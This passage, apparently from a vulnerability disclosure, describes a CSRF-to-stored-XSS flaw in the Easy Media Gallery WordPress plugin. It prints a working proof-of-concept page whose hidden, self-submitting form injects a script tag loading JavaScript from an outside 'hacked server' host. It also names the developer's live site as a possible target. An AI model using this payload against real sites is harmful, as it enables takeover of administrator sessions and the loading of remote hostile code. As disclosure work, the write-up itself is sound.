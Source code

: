 But the authors of ghozy lab didn't apply neither inbound nor outbound
input handling which lead to potentially malicious code in the database
that is eventually printed to the administration screen by causing a
stored XSS (The output and admin menu generation code is also in
wp-content/plugins/easy-media-gallery/includes/emg-settings.php between
line 275 and 520.

Again in short and for conclusion: Because there is no way to guarantee
that the action originated from a intentional form submittal by the
administrator (Because there are no security checks with anti
Cross-Site-Request-Forgery barriers such as check_admin_referer() or
check_ajax_referer()), any attacker can set up a page that
incorporates the following form hidden into the site. Note that the form
submits itself in a stealth way, such that a visitor isnt' able to
observer anything suspicious.

    :::HTML
    <!DOCTYPE html>

    <html>
        <head>
            <title>XSS POC</title>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width">
        </head>
        <body>
            <div style="display:none;">
                <iframe id="xss-test-iframe" name="xss-test-iframe"></iframe>

                <form id="xss-test" action="http://localhost/~nikolai/wordpress_pentest/wordpress/wp-admin/index.php?page=settings&post_type=easymediagallery" method="POST">
                    <input type="hidden" name="action" value="save" />
                    <input type="hidden" name="easymedia_style_pattern" value='pattern-01.png" name="easymedia_style_pattern" id="easymedia_style_pattern" /><script src=http://somehackedserver.com/plugin-loader.js>//Nothin here</script>' />
                </form>

                <script type="text/javascript">
                    document.getElementById('xss-test').submit();
                </script>
            </div>
        </body>
    </html> 

Of course the appropriate values have to be set to match the victims
server credentials. So if we wanted to target the plugin developer, we
would just use the URL in the POST form

    http://ghozylab.com/wp-admin/index.php?page=settings&post_type=easymediagallery

and we would host the javascript payload on a hacked server. But wait,
the above POC has the payload

    pattern-01.png" name="easymedia_style_pattern" id="easymedia_style_pattern" /><script src=http://somehackedserver.com/plugin-loader.js>//Nothin here</script>
